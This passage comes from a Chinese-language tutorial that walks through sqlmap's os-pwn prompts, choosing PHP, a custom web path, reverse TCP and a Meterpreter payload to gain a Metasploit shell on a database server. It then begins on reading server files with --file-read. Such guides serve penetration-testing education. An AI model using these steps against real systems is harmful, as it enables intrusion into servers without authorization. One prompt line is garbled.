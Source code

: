 **选择网站的脚本语言，这里根据情况选择**
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
\> 4

**选择网站的路径，这里也是根据情况而定，如果知道网站路径的话，可以选择2然后手动输入**
[1] common location(s) (‘C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/‘) (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
\> 2
please provide a comma separate list of absolute directory paths: C:\phpstudy\WWW

[![img](https://p1.ssl.qhimg.com/t01ed3941c4c73cca18.png)](https://p1.ssl.qhimg.com/t01ed3941c4c73cca18.png)

**然后选择连接的类型，这里选择默认的1 即可**

which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on all ports between the specified and 65535
[3] Reverse HTTP: Connect back from the database host to this machine tunnelling traffic over HTTP
[4] Reverse HTTPS: Connect back from the database host to this machine tunnelling traffic over HTTPS
[5] Bind TCP: Listen on the database host for a connection
\> 1

**然后还会提示监听的地址和端口，这里直接回车即可**

[![img](https://p3.ssl.qhimg.com/t01d5600ba16319fb20.png)](https://p3.ssl.qhimg.com/t01d5600ba16319fb20.png)

[![img](https://p2.ssl.qhimg.com/t01715275b9acc1930c.png)](https://p2.ssl.qhimg.com/t01715275b9acc1930c.png)

**然后这里选择payload的类型，我们这里选择默认的1**

which payload do you want to use?nt to use? [11563] ‘ (detected)]
[1] Meterpreter (default)
[2] Shell
[3] VNC
\> 1

[![img](https://p3.ssl.qhimg.com/t01dc5a821ad98334e4.png)](https://p3.ssl.qhimg.com/t01dc5a821ad98334e4.png)

执行完成后，如果不出问题，我们就可以获得一个MSF类型的shell了。

[![img](https://p1.ssl.qhimg.com/t011858b704025dfe6a.png)](https://p1.ssl.qhimg.com/t011858b704025dfe6a.png)

### 读取服务器文件(—file-read)

当数据库为MySQL、PostgreSQL或SQL Server，并且当前用户有权限时，可以读取指定文件，可以是文本文件或者二进制文件。
